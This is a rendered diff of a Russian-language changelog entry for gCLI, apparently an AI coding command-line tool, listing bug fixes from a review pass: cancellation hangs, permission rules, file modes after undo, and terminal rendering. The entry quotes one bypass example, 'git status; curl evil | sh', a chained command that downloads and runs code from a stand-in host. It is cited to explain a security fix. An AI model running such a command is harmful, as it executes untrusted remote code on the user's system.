

Before and after one commit to saaae1337/gCLI, a Markdown page: CHANGELOG.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs(changelog): третья вычитка — отмена, разрешения и артефакты

```diff
--- a/CHANGELOG.md
+++ b/CHANGELOG.md
@@ -74,6 +74,38 @@ resume сессии с картинками он уходил с пустым ba
 посреди ответа; Anthropic-парсер на HTML-заглушке шлюза отвечает честной
 ошибкой вместо «пустого потока»; /compact держит turnMu — ход,
 начавшийся посреди сжатия, встанет в очередь, а не потеряет историю.
+
+**Третья вычитка: отмена, разрешения и артефакты.** Контрольный проход по
+всем подсистемам нашёл ещё девять дефектов — каждый закрыт регресс-тестом.
+Ctrl+C, заставший часть параллельных инструментов в очереди на запуск,
+навсегда подвешивал ход: сборщик результатов ждал посылки, которые уже не
+должны были прийти, вместе с ним висел turnMu. Заметка «не удалось
+сохранить состояние на диск» писалась на каждой итерации любого обычного
+хода: nil-движок миссии возвращал false неотличимо от сорванного
+сохранения, и три десятка фиктивных заметок уходили в системный промпт.
+Обрыв потока посреди текста помечается «(ответ оборван…)» — усечённый
+ответ больше не выглядит законченным ни в ленте, ни в истории. Расширения
+без timeout_sec жили 5 секунд вместо обещанных 60/30: Clamp(0,…)=минимум
+делал ветку дефолта мёртвой. Доверие к коду проекта фиксирует хеш из
+предупреждения, а не перечитывает файл с диска: между показом и «доверять»
+манифест можно было подменить. Правило «bash(git status *): allow»
+пропускало «git status; curl evil | sh» — «*» в allow-шаблоне больше не
+раздаёт разрешения цепочкам команд с ;|&$`<>. Откат /undo возвращает
+файлу прежние права: секретный .env с 0600 после undo больше не становится
+0644. attachMission читает задание прогона под msnMu (REPL принимает
+команды и во время хода); паника на главной горутине возвращает терминал
+из raw-режима и сохраняет сессию; предупреждение «сессия не сохраняется»
+в -json/-p уходит в stderr, не ломая машинный stdout; /undo, /revert и
+ручные субагенты отказываются работать под идущим ходом; -watch при
+сдаче отдаёт CI ненулевой код выхода; повреждённый файл сессии честно
+называется повреждённым, а не «не найден». В TUI отпускание мыши по X10
+больше не притворяется нажатием — клик не срабатывал как двойной,
+drag-выделение не завершалось; CSI с управляющим байтом внутри
+заканчивается по каноническим правилам, и обрезанный truecolor не съедает
+перевод строки; база после ZWJ входит в кластер со своей шириной — курсор
+редактора не разъезжается с тем, что рисует терминал; ширина терминала на
+POSIX берётся ioctl'ом, а не только из COLUMNS, которую экспортируют не
+все эмуляторы.
 
 **Ошибки не исчезают в тихом режиме.** `-p` и `-json` раньше глушили
 и сообщение об ошибке: CI получал код 1 без единого слова о причине.
```
